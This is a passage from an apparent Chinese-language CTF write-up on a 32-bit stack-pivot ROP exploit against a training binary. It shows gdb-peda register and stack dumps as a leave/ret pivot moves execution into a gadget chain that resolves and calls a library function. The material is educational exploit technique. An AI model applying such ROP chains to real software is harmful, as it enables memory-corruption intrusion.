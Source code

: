 EIP=`0x804889f`，同时 ESP+4。

第二次 leave：
```
gdb-peda$ n
[----------------------------------registers-----------------------------------]
EAX: 0xffe7ec40 ('A' <repeats 40 times>, "\f\317U\367\237\210\004\b\n")
EBX: 0x0 
ECX: 0xffe7ec40 ('A' <repeats 40 times>, "\f\317U\367\237\210\004\b\n")
EDX: 0xf7731860 --> 0x0 
ESI: 0xf772fe28 --> 0x1d1d30 
EDI: 0x0 
EBP: 0x0 
ESP: 0xf755cf10 --> 0x80485f0 (<foothold_function@plt>: jmp    DWORD PTR ds:0x804a024)
EIP: 0x80488a0 (<pwnme+174>:    ret)
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x804889b <pwnme+169>:       add    esp,0x10
   0x804889e <pwnme+172>:       nop
   0x804889f <pwnme+173>:       leave  
=> 0x80488a0 <pwnme+174>:       ret    
   0x80488a1 <uselessFunction>: push   ebp
   0x80488a2 <uselessFunction+1>:       mov    ebp,esp
   0x80488a4 <uselessFunction+3>:       sub    esp,0x8
   0x80488a7 <uselessFunction+6>:       call   0x80485f0 <foothold_function@plt>
[------------------------------------stack-------------------------------------]
0000| 0xf755cf10 --> 0x80485f0 (<foothold_function@plt>:        jmp    DWORD PTR ds:0x804a024)
0004| 0xf755cf14 --> 0x80488c0 (<usefulGadgets>:        pop    eax)
0008| 0xf755cf18 --> 0x804a024 --> 0x80485f6 (<foothold_function@plt+6>:        push   0x30)
0012| 0xf755cf1c --> 0x80488c4 (<usefulGadgets+4>:      mov    eax,DWORD PTR [eax])
0016| 0xf755cf20 --> 0x8048571 (<_init+33>:     pop    ebx)
0020| 0xf755cf24 --> 0x1f7 
0024| 0xf755cf28 --> 0x80488c7 (<usefulGadgets+7>:      add    eax,ebx)
0028| 0xf755cf2c --> 0x80486a3 (<deregister_tm_clones+35>:      call   eax)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x080488a0 in pwnme ()
gdb-peda$ x/10w 0xf755cf10
0xf755cf10:     0x080485f0      0x080488c0      0x0804a024      0x080488c4
0xf755cf20:     0x08048571      0x000001f7      0x080488c7      0x080486a3
0xf755cf30:     0x0000000a      0x00000000
```
EBP 的值 `0xf755cf0c` 被赋值给 ESP，并将 主payload 的 ebp 赋值给 EBP，同时 ESP+4=`0xf755cf10`，这个值正是我们 主payload 的地址。

第二次 ret：
```
gdb-peda$ n
[----------------------------------registers-----------------------------------]
EAX: 0xffe7ec40 ('A' <repeats 40 times>, "\f\317U\367\237\210\004\b\n")
EBX: 0x0 
ECX: 0xffe7ec40 ('A' <repeats 40 times>, "\f\317U\367\237\210\004\b\n")
EDX: 0xf7731860 --> 0x0 
ESI: 0xf772fe28 --> 0x1d1d30 
EDI: 0x0 
EBP: 0x0 
ESP: 0xf755cf14 --> 0x80488c0 (<usefulGadgets>: pop    eax)
EIP: 0x80485f0 (<foothold_function@plt>:        jmp    DWORD PTR ds:0x804a024)
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x80485e0 <exit@plt>:        jmp    DWORD PTR ds:0x804a020
   0x80485e6 <exit@plt+6>:      push   0x28
   0x80485eb <exit@plt+11>:     jmp    0x8048580
=> 0x80485f0 <foothold_function@plt>:   jmp    DWORD PTR ds:0x804a024
 | 0x80485f6 <foothold_function@plt+6>: push   0x30
 | 0x80485fb <foothold_function@plt+11>:        jmp    0x8048580
```